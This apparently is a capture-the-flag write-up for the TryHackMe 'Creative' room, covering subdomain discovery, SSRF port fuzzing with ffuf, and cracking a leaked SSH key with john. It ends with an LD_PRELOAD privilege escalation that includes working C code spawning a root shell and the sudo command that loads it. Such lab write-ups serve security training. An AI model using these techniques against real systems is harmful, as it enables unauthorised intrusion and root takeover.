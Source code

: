 ```yaml
---
title: THM Creative
author: hanhctf
date: 2024-05-21 12:00:00 +0700
categories: [Write-up, THM]
tags: [SSRF]
toc: true
mermaid: true
---
```


# [**Creative**](https://tryhackme.com/r/room/creative)

# Summary
>
> - 'beta' subdomain
> - SSRF --> LFI 
> - LPE with LD_Preload

## NMAP

```text
Nmap scan report for creative.thm (10.10.204.200)
Host is up (0.40s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Creative Studio | Free Bootstrap 4.3.x template
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration

The Nmap scan reveals only two ports: port 22, on which we have SSH, and port 80, a web server with nginx 1.18.0.  
Nothing interesting on the web server.  
Time to enumerate some subdomains `creative.thm`.  
We find the subdomain `beta.creative.thm`.

![](/commons/THM/Creative/0_subdomain.png)  

Open `beta.creative.thm'  

![](/commons/THM/Creative/1_SSRF.png)

This site will test a URL. **Command inject**, **SSRF**, **LFI** is first things in my mind.  

After trying some simple payloads. I found **SSRF**. Check port on `127.0.0.1`

```shell
ffuf -w /opt/SecLists/Fuzzing/5-digits-00000-99999.txt -u http://beta.creative.thm/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fw 3
```
![](/commons/THM/Creative/2_1337.png)

After enumeration, we got the id_rsa file.
![](/commons/THM/Creative/3_id_rsa.png)

Login to SSH with this key. It requests a passphrase. :))  
We will try to use ssh2john to crack the passphrase of ssh. (Almost in CTF, rockyou.txt is your friend)  

```shell
ssh2john id_rsa > id_rsa.hash
/opt/john/run/john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

***GOT USER.TXT FLAG***


## Privilege Escalation

Login as `saad`, we found creds in .bash_history.
![](/commons/THM/Creative/5_creds.png)

Check `sudo -l`
![](/commons/THM/Creative/6_ping.png)

`/usr/bin/ping` can run as `root` but no command is useful.  
`env_keep+=LD_PRELOAD` we found an article written about [LPE using LD_Preload](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/) 

Create a `shell.c`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

Compile it to generate a shared object with .so extension likewise .dll file in the Windows operating system and hence type the following:

```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so sudo /usr/bin/ping
```

![](/commons/THM/Creative/7_root.png)

***GOT ROOT.TXT FLAG***

